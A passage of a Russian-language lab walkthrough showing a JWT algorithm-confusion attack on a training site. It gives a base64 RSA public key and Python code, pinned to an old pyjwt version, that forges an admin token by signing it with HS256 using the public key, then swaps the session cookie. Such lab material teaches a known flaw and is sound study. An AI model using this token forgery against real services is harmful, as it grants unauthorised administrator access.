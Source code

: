 ```
LS0tLS1CRUdJTiBQVUJMSUMgS0VZLS0tLS0KTUlHZk1BMEdDU3FHU0liM0RRRUJBUVVBQTRHTkFEQ0JpUUtCZ1FERk44dDdhS1UxbmQ2K1RQYkZFWVJmenIzWApnSE1QZGdzdVZ1c3MrL1UwMjNtRW1vajJ4Zy9lamR0V0UwTWJRUUxkT28rOXlqZmRNbWowYy9NbGYrYXF0M1lPCkNkUWtVV0l1RFZUOVVPTnRBUkFtYWNxQzNQT0xBNXgrcEIyc0ZieWNhT2ZQS2xYV3I2RXZVd2V0TW1PaWNuR1YKeGwrMEIwZDhid1d3TldPV0p3SURBUUFCCi0tLS0tRU5EIFBVQkxJQyBLRVktLS0tLQo=
```

### Шаг 2

Генерируем новый session_rsa cookie подписанный public ключом. Для этого можно использовать следующий код.

```python
# important: pyjwt version <= 0.4.2
import jwt
import base64

public_key = base64.b64decode(
        'LS0tLS1CRUdJTiBQVUJMSUMgS0VZLS0tLS0KTUlHZk1BMEdDU3FHU0liM0RRRUJBUVVBQTRHTkFEQ0JpUUtCZ1FERk44dDdhS1UxbmQ2K1RQYk'
        'ZFWVJmenIzWApnSE1QZGdzdVZ1c3MrL1UwMjNtRW1vajJ4Zy9lamR0V0UwTWJRUUxkT28rOXlqZmRNbWowYy9NbGYrYXF0M1lPCkNkUWtVV0l1'
        'RFZUOVVPTnRBUkFtYWNxQzNQT0xBNXgrcEIyc0ZieWNhT2ZQS2xYV3I2RXZVd2V0TW1PaWNuR1YKeGwrMEIwZDhid1d3TldPV0p3SURBUUFCCi'
        '0tLS0tRU5EIFBVQkxJQyBLRVktLS0tLQo=')

print(jwt.encode(
            {'username': 'user', 'is_admin': True}, 
            key=public_key, 
            algorithm='HS256'
            ).decode()
)
```

Переходим на http://jwt_insecure.lab/index_2

![](img/rshs_2.png)

Заменяем session_rsa cookie на полученный токен.
